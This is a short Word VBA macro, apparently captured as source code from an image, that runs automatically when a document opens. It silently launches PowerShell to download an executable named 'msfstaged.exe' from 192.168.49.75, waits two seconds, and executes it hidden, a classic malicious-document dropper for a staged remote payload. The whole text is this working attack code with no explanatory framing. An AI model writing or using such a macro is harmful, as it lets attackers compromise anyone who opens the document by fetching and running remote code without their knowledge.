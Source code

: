 Sub Document_Open()
	MyMacro
End Sub

Sub AutoOpen()
	MyMacro
End Sub

Sub MyMacro()
	Dim str As String
	str = " powershell (New-Object System.Net.WebClient).DownloadFile('http://192.168.49.75/msfstaged.exe','msfstaged.exe')"
	Shell str, vbHide
	Dim exePath As String
	exePath = ActiveDocument.Path + "\msfstaged.exe"
	Wait (2)
	Shell exePath, vbHide
End Sub

Sub Wait(n As Long)
	Dim t as Date
	t = Now
	Do
		DoEvents
	Loop Until Now >= DateAdd("s", n, t)
End Sub